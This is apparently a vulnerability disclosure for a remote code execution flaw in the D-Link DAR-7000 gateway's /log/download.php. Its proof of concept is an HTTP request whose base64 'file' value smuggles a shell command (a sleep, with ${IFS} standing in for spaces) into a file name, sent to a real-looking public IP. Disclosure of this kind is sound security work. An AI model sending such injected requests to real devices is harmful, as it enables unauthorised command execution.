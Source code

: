 The D-LINK DAR-7000 series online behavior audit gateway has a RCE vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.
official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/log/download.php

poc：
```
GET /log/download.php?file=L2V0Yy9gc2xlZXAke0lGU30xMGAucGNhcA==&filetype=SMTP HTTP/1.1
Host: 60.22.74.195:8443
Cookie: PHPSESSID=bdb1aa1392da0420192cff3c34e507d6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 219.142.42.9
Te: trailers
Connection: close

```
<img width="683" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/ddd1a94d-559a-4442-add8-ff8fc99e303d">

<img width="697" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/7ff56874-4c97-46cb-930a-624f9a505a14">

